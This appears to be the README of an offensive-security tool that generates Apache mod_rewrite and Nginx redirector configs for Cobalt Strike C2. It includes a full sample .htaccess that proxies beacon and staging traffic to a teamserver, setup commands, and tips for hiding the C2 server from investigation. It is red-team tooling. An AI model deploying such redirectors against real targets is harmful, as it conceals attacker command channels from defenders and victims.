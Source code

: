 # Automatically Generate Rulesets for Apache mod_rewrite or Nginx for Intelligent HTTP C2 Redirection

This project converts a Cobalt Strike profile to a functional mod_rewrite `.htaccess` or Nginx config file to support HTTP reverse proxy redirection to a Cobalt Strike teamserver. The use of reverse proxies provides protection to backend C2 servers from profiling, investigation, and general internet background radiation.

***Note***: You should test and tune the output as needed before deploying, but these scripts should handle the heavy lifting.

## Features

- Now requires Python 3.0+ (this is 2020 after all)
- Supports the Cobalt Strike custom URI features as of CS 4.0
- Rewrite Rules based on valid C2 URIs (HTTP GET, POST, and Stager) and specified User-Agent string.
  - Result: Only requests to valid C2 endpoints with a specified UA string will be proxied to the Team Server by default.
- Uses a custom Malleable C2 profile to build a .htaccess file with corresponding mod_rewrite rules
- Uses a custom Malleable C2 profile to build a Nginx config with corresponding proxy_pass rules
- HTTP or HTTPS proxying to the Cobalt Strike Team Server
- HTTP 302 Redirection to a Legitimate Site for Non-Matching Requests

## Quick start

The havex.profile example is included for a quick test.

1) Run the script against a profile
2) Save the output to `.htaccess` or `/etc/nginx/nginx.conf` on your redirector
3) Modify as needed
4) Reload\restart the web server

## Apache mod_rewrite Example Usage

    python3 cs2modrewrite.py -i havex.profile -c https://TEAMSERVER -r https://GOHERE > /var/www/html/.htaccess
    #### Save the following as .htaccess in the root web directory (i.e. /var/www/html/.htaccess)
    
    ########################################
    ## .htaccess START 
    RewriteEngine On
    
    ## (Optional)
    ## Scripted Web Delivery 
    ## Uncomment and adjust as needed
    #RewriteCond %{REQUEST_URI} ^/css/style1.css?$
    #RewriteCond %{HTTP_USER_AGENT} ^$
    #RewriteRule ^.*$ "http://TEAMSERVER%{REQUEST_URI}" [P,L]
    
    ## Default Beacon Staging Support (/1234)
    RewriteCond %{REQUEST_URI} ^/..../?$
    RewriteCond %{HTTP_USER_AGENT} "Mozilla/5.0 \(Windows; U; MSIE 7.0; Windows NT 5.2\) Java/1.5.0_08"
    RewriteRule ^.*$ "http://TEAMSERVER%{REQUEST_URI}" [P,L]
    
    ## C2 Traffic (HTTP-GET, HTTP-POST, HTTP-STAGER URIs)
    ## Logic: If a requested URI AND the User-Agent matches, proxy the connection to the Teamserver
    ## Consider adding other HTTP checks to fine tune the check.  (HTTP Cookie, HTTP Referer, HTTP Query String, etc)
    ## Refer to http://httpd.apache.org/docs/current/mod/mod_rewrite.html
    ## Profile URIs
    RewriteCond %{REQUEST_URI} ^(/include/template/isx.php.*|/wp06/wp-includes/po.php.*|/wp08/wp-includes/dtcla.php.*|/modules/mod_search.php.*|/blog/wp-includes/pomo/src.php.*|/includes/phpmailer/class.pop3.php.*|/api/516280565958.*|/api/516280565959.*)$
    ## Profile UserAgent
    RewriteCond %{HTTP_USER_AGENT} "Mozilla/5.0 \(Windows; U; MSIE 7.0; Windows NT 5.2\) Java/1.5.0_08"
    RewriteRule ^.*$ "https://TEAMSERVER%{REQUEST_URI}" [P,L]
    
    ## Redirect all other traffic here (Optional)
    RewriteRule ^.*$ HTTPS://GOHERE/ [L,R=302]
    
    ## .htaccess END
    ########################################

### Apache Rewrite Setup and Tips

Install apache and enable\disable appropriate modules

    apt-get install apache2
    a2enmod rewrite headers proxy proxy_http ssl cache
    a2dismod -f deflate
    service apache2 reload

Note: https://bluescreenofjeff.com/2016-06-28-cobalt-strike-http-c2-redirectors-with-apache-mod_rewrite/
"e0x70i pointed out in the comments below that if your Cobalt Strike Malleable C2 profile contains an Accept-Encoding header for gzip, your Apache install may compress that traffic by default and cause your Beacon to be unresponsive or function incorrectly. To overcome this, disable mod_deflate (via a2dismod deflate and add the No Encode ([NE]) flag to your rewrite rules. (Thank you, e0x70i!)"

### Enable SSL support

Ensure the following entries are in the site's config (i.e. `/etc/apache2/available-sites/*.conf`)

    # Enable SSL
    SSLEngine On
    # Enable Proxy
    SSLProxyEngine On
    # Trust Self-Signed Certificates generated by CobaltStrike
    SSLProxyVerify none
    SSLProxyCheckPeerCN off
    SSLProxyCheckPeerName off

### .HTACCESS

If you plan on using mod_rewrite in .htaccess files (instead of the site's config file), you also need to enable the use of `.htaccess` files by changing `AllowOverride None` to `AllowOverride All`. For all websites, edit `/etc/apache2/apache.conf`

    <Directory /var/www/>
        Options FollowSymLinks MultiViews
        AllowOverride All
        Order allow,deny
        allow from all
    </Directory>

Finally, restart apache once more for good measure.

`service apache2 restart`

### Troubleshooting

If you need to troubleshoot redirection rule behavior, enable detailed error tracing in your site's configuration file by adding the following line.

`LogLevel alert rewrite:trace5`

Next, reload apache, and monitor `/var/log/access.log` `/var/log/error.log` to see which rules are matching.

----------------------------------------------

## Nginx Example Usage

### Install Nginx

    apt-get install nginx

### Create Redirection Rules

Save the cs2nginx.py output to `/etc/nginx/nginx.conf` and modify as needed (SSL parameters).

`python3 ./cs2nginx.py -i havex.profile -c https://127.0.0.1 -r https://www.google.com -H mydomain.local >/etc/nginx/nginx.conf`

Finally, restart nginx after modifying the server configuration file.

`service nginx restart`

## Final Thoughts

Once redirection is configured and functioning, ensure your C2 servers only allow ingress from the redirector and your trusted IPs (VPN, office ranges, etc).

Consider adding additional redirector protections using GeoIP restrictions (mod_maxmind) and blacklists of bad user agents and IP ranges. Thanks to [@curi0usJack](https://twitter.com/curi0usJack) for the ideas.

## References

- [Joe Vest and Andrew Chiles - cs2modrewrite.py blog post](https://posts.specterops.io/automating-apache-mod-rewrite-and-cobalt-strike-malleable-c2-profiles-d45266ca642)

- [@bluescreenofjeff - Cobalt Strike HTTP C2 Redirectors with Apache mod_rewrite](https://bluescreenofjeff.com/2016-06-28-cobalt-strike-http-c2-redirectors-with-apache-mod_rewrite/)

- [Adam Brown - Resilient Red Team HTTPS Redirection Using Nginx](https://coffeegist.com/security/resilient-red-team-https-redirection-using-nginx/)

- [Apache - Apache mod_rewrite Documentation](http://httpd.apache.org/docs/current/mod/mod_rewrite.html)